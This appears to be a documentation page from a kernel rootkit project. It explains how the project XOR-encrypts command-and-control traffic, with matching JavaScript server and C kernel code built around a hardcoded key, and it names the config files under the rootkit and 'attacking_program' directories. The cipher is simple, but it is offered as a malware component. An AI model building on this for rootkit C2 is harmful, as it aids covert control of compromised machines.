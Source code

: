 ```yaml
---
title: "XOR Encryption"
description: "XOR encryption for C2 communication"
icon: "lock"
date: "2025-05-30T00:00:00+01:00"
lastmod: "2025-05-30T00:00:00+01:00"
draft: false
toc: true
weight: 515
---
```


# XOR Encryption

XOR encryption for C2 communication with implementation.

## How It Works

- **Symmetric operation**: Same function for encrypt/decrypt
- **Hardcoded 32-byte key**: Identical on server and kernel
- **Binary compatibility**: Consistent synchronization
- **Zero dependencies**: No crypto API complexities

## Implementation

### Server Side
```javascript
// 32-byte hardcoded XOR key
const XOR_KEY = Buffer.from('0123456789abcdef0123456789abcdef0123456789abcdef0123456789abcdef', 'hex');

function xorCrypt(data) {
  const input = Buffer.isBuffer(data) ? data : Buffer.from(data, 'utf8');
  const result = Buffer.alloc(input.length);
  
  for (let i = 0; i < input.length; i++) {
    result[i] = input[i] ^ XOR_KEY[i % XOR_KEY.length];
  }
  
  return result;
}

const encryption = {
  encrypt(text) { return xorCrypt(text); },
  decrypt(data) { return xorCrypt(data).toString('utf8'); }
};
```

### Kernel Side
```c
// Matching XOR key (32 bytes)
static const u8 XOR_KEY[] = {
    0x01, 0x23, 0x45, 0x67, 0x89, 0xab, 0xcd, 0xef,
    0x01, 0x23, 0x45, 0x67, 0x89, 0xab, 0xcd, 0xef,
    0x01, 0x23, 0x45, 0x67, 0x89, 0xab, 0xcd, 0xef,
    0x01, 0x23, 0x45, 0x67, 0x89, 0xab, 0xcd, 0xef
};

static void xor_crypt(const u8 *input, u8 *output, size_t length)
{
    for (size_t i = 0; i < length; i++) {
        output[i] = input[i] ^ XOR_KEY[i % XOR_KEY_SIZE];
    }
}
```

## Message Flow

```
Plaintext: "CMD:auth:password"
    ↓ XOR with key
Encrypted: [binary data]
    ↓ TCP transmission
Kernel: receives binary → XOR → "CMD:auth:password"
```

## Configuration

### Compile-time Setting
```c
// rootkit/core/config.h
#define ENABLE_ENCRYPTION 1  // 1 = enabled, 0 = disabled
```

### Custom Key
Update both locations with matching values:
```javascript
// Server: attacking_program/src/utils/encryption.js
const XOR_KEY = Buffer.from('your32bytehexkeyhere...', 'hex');
```

```c
// Kernel: rootkit/security/crypto.c
static const u8 XOR_KEY[] = { 0xYO, 0xUR, 0xKE, 0xY... };
```
